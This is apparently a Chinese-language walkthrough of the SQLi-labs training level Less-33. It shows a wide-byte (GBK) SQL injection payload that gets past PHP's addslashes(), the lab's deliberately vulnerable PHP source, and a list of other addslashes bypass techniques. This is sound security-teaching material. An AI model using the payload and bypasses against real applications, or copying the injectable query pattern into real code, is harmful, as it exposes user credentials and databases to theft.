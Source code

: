 # Less-33 **GET Bypass addslashes()[2]**
TAG：宽字节注入  
## 漏洞利用  
Less33可以使用less32一样的payload，或许过滤器代码存在不同，但可以被相同的方式突破  
Payload:```?id=0%df' union select 1,2,3--+```
![less33_1](images\less33_1.png)  
  
## 源码分析
### less33源代码  
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-32 **Bypass addslashes()**</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:70px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="5" color="#00FF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sqli-connect.php");

function check_addslashes($string)
{
    $string= addslashes($string);    
    return $string;
}

// take the variables 
if(isset($_GET['id']))
{
$id=check_addslashes($_GET['id']);
//echo "The filtered request is :" .$id . "<br>";

//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 

mysqli_query($con1, "SET NAMES gbk");
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysqli_query($con1, $sql);
$row = mysqli_fetch_array($result, MYSQLI_BOTH);

	if($row)
	{
  	echo '<font color= "#00FF00">';	
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	print_r(mysqli_error($con1));
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}
        
        

?>
</font> </div></br></br></br><center>
<img src="../images/Less-33.jpg" />
</br>
</br>
</br>
</br>
</br>
<font size='4' color= "#33FFFF">
<?php
function strToHex($string)
{
    $hex='';
    for ($i=0; $i < strlen($string); $i++)
    {
        $hex .= dechex(ord($string[$i]));
    }
    return $hex;
}
echo "Hint: The Query String you input is escaped as : ".$id ."<br>";
echo "The Query String you input in Hex becomes : ".strToHex($id);
?>
</center>
</font> 
</body>
</html>
```
  
### 漏洞点分析  
```
function check_addslashes($string)
{
    $string= addslashes($string);    
    return $string;
}
```  
此less使用了php的```addslashes()```函数  
![less33_2](images\less33_2.png)  
此函数也在某些情况下存在绕过操作：  
1. 字符编码问题导致绕过:  
设置数据库字符为gbk导致宽字节注入  
使用icon,mb_convert_encoding转换字符编码函数导致宽字节注入  
2. 编码解码导致的绕过:  
url解码导致绕过addslashes  
base64解码导致绕过addslashes  
json编码导致绕过addslashes  
3. 一些特殊情况导致的绕过:  
没有使用引号保护字符串，直接无视addslashes  
使用了stripslashes  
字符替换导致的绕过addslashes  
  
本less中就使用了宽字节注入来绕过```addslashes()```函数  